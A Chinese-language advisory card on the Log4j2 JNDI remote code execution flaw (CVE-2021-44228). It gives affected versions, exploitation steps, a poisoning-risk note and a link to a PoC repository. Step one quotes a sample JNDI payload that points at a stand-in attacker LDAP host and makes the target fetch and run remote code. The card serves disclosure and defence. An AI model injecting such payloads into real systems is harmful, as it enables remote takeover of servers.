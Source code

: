 ## CVE-2021-44228-Apache Log4j2 JNDI 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许攻击者执行任意代码

**影响版本:** 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）

**利用条件:** 目标系统使用了受影响版本的Log4j2，且允许JNDI查找

**POC 可用性:** 是

**投毒风险:** 2%

## 详情

CVE-2021-44228 存在于 Apache Log4j2 中，利用了 JNDI 注入漏洞，攻击者通过控制日志消息或日志消息参数，可以执行从 LDAP 服务器加载的任意代码。利用方式如下：

1.  **构造恶意 JNDI 注入 Payload：** 攻击者构造包含 JNDI 查找的恶意字符串，例如 `${jndi:ldap://attacker.com/evil}`。
2.  **触发 Log4j2 记录 Payload：** 将恶意 Payload 注入到应用程序的日志消息中。这可以通过多种方式实现，例如通过 HTTP 请求头、POST 参数、用户输入等。
3.  **Log4j2 解析 Payload 并执行 JNDI 查找：** 当 Log4j2 记录包含恶意 Payload 的日志消息时，它会尝试解析 JNDI 查找。
4.  **连接到恶意 LDAP 服务器：**  Log4j2 会连接到攻击者控制的 LDAP 服务器（attacker.com）。
5.  **执行任意代码：** 恶意 LDAP 服务器会返回一个包含恶意 Java 类的响应，Log4j2 会加载并执行该类，从而导致远程代码执行。

**投毒风险分析：**

尽管该存储库提供了有价值的 PoC 和利用信息，但仍然存在作者投毒代码的微小风险。例如，LDAP 服务器响应中包含的恶意 Java 类可能包含后门，或在其他位置下载并执行恶意代码。为了将风险降至最低，应彻底审查提供的任何代码，并仅从受信任的来源下载所需的工具。

**项目地址:** [LucasPDiniz/CVE-2021-44228](https://github.com/LucasPDiniz/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)